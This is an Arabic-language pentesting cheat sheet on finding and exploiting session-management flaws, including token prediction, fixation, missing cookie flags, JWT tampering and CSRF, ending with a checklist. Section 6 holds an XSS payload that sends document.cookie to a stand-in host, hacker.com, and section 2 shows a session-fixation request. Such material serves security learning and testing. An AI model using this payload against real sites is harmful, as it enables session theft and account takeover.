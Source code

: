 
## 🚨 متى أعرف أن هناك ثغرة في Session Management؟

### 🔹 1. **التوكن ضعيف أو قابل للتنبؤ (Predictable Session Token)**
- إذا كان الـ Session ID:
  - قصير جدًا (مثلاً أقل من 128 بت).
  - يتبع نمطًا (مثل: `session_1`, `session_2`, `user_20241015`).
  - يستخدم Base64 أو UUID غير مُشفَّر.
- ✅ **كيف تستغلها؟**
  - استخدم Brute-force أو Prediction باستخدام أدوات مثل:
    - **Burp Intruder**
    - **tokenalyzer.py**
    - **Python Scripts**

---

### 🔹 2. **Session Fixation ممكنة**
- إذا كنت تقدر على:
  - تحديد Session ID قبل تسجيل الدخول.
  - وبعدين يسجل المستخدم دخوله → ما تتغيّرش الجلسة.
- ✅ **مثال بسيط:**
```http
GET /login HTTP/1.1
Host: vulnerable.com
Cookie: PHPSESSID=hacker_session_id
```
- لو المستخدم سجل دخول مع نفس الـ Session ID → تقدر تستخدمه لدخول باسمه.

---

### 🔹 3. **الجلسة مش معمولة لها Secure أو HttpOnly**
- إذا رأيت كوكيز بدون:
  - `Secure`: تعني أنها قد ترسل عبر HTTP غير آمن.
  - `HttpOnly`: يعني يمكن سرقتها عبر XSS.

- ✅ **كيف تستغلها؟**
  - إنترنت سرقتها عبر MITM أو XSS.

---

### 🔹 4. **Session Token موجود في URL**
- إذا وجدت توكنات في الرابط مثل:
  ```
  http://target.com/dashboard?sessionid=abc123
  ```
- ✅ **مشاكل معروفة:**
  - تسريب عبر Referer headers.
  - تخزينها في المتصفح history أو server logs.
  - يمكن سرقتها عبر Reflected XSS أو Social Engineering.

---

### 🔹 5. **الجسلة مش بتنتهي بعد logout أو بعد فترة عدم النشاط (Infinite Sessions)**
- تسجل خروج، وتقدر تستخدم نفس التوكن مرة أخرى.
- أو تفتح التوكن بعد ساعتين وما زال فعال.
- ✅ **كيف تستغلها؟**
  - يمكنك إعادة استخدام التوكن لتجسس على المستخدم.

---

### 🔹 6. **Session Hijacking ممكن بعد XSS**
- لو عندك ثغرة XSS في أي صفحة، وتجد أن الكوكيز ليس بصيغة HttpOnly:
```javascript
<script>
  fetch('https://hacker.com/session?cookie=' + document.cookie)
</script>
```
- ✅ شروط الاستغلال:
  - وجود XSS.
  - كوكيز بدون `HttpOnly`.

---

### 🔹 7. **Session Reuse بين المستخدمين**
- لو جربت تستخدم توكن مستخدم A وأدخلت به حساب مستخدم B.
- أو الحساب يتغير داخل نفس الجلسة دون تجديد التوكن.
- ✅ يعني النظام بيشارك الجلسات أو مبيفرقش بين المستخدمين بشكل صحيح.

---

### 🔹 8. **SameSite غير موجود أو ضعيف**
- الكوكيز بدون `SameSite=Strict/Lax` = عرضة لـ CSRF.
- ✅ **استغلال محتمل:**
  - إرسال طلب نيابة عن المستخدم من موقع آخر (CSRF).

---

### 🔹 9. **Token Binding معدوم (IP/User-Agent Binding)**
- لو غيّرت IP أو User-Agent وكان التوكن ما اتوقفش → الجلسة مستمرة.
- ✅ **استغلال:**
  - سرقة الجلسة والعمل منها حتى وإن غيرت الجهاز أو الشبكة.

---

### 🔹 10. **JWT Tokens غير آمنة أو قابلة للتلاعب**
- لو وجدت توكن JWT في Authorization Header أو Cookie، ومتيح لك تغيير payload أو signature.
- ✅ أدوات:
  - Burp Suite + JWT Editor Extension.
  - هل يقبل الخادم توكنات معدلة؟ إذا نعم → ثغرة.

---

## ✅ Checklist: هل فيه ثغرة في Session Management؟

| الشرط                                     | هل فيه ثغرة؟ |
| ----------------------------------------- | ------------ |
| توكن ضعيف أو متكرر                        | ✅            |
| Session Fixation ممكنة                    | ✅            |
| كوكيز بدون Secure/HttpOnly/SameSite       | ✅            |
| توكن في URL                               | ✅            |
| الجلسة ما تنتهيش بعد_logout               | ✅            |
| XSS + سرقة الكوكيز ممكنة                  | ✅            |
| توكنات مش مُشفَّرة أو قابلة للتعديل (JWT) | ✅            |
| Session Reuse بين المستخدمين              | ✅            |

---

## 📌 مثال سريع على ثغرة:

> **Long-lived session with no expiration**
- سجلت دخول وحصلت على توكن.
- سجلت خروج، وجربت استخدام التوكن → لا يزال يعمل.

➡️ هذه **Threat Risk Medium** على الأقل.

---

